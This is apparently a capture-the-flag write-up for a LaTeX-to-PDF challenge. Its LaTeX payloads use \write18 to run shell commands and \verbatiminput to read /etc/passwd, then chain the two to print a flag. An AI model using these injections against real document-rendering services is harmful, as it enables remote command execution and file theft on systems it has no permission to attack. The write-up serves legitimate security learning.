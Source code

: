 # UnderLeaf
The website renders LaTeX to PDF. The description says that we need to
run `/readflag` to get the flag so we know that we need to get RCE.
As LaTeX has the command `\write18` that runs arbitrary commands, 
while not enabled by default we can try it, with the following payload
```
\documentclass{article}
\begin{document}
\immediate\write18{sleep 5}
\end{document}
```

As we also control the preamble we can include any package.
Including the verbatim package we can get an easy file read as well.
```
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/etc/passwd}
\end{document}
```

Now we have a blind RCE and a file read primitve so we can chain them together
by writing the output of `/readflag` to a file and then including the file.
```
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\immediate\write18{/readflag > /tmp/output}
\verbatiminput{/tmp/output}
\end{document}
```
With this payload we get the flag displayed on the PDF 
`gg{Pi_eQuaLs_3!!}`

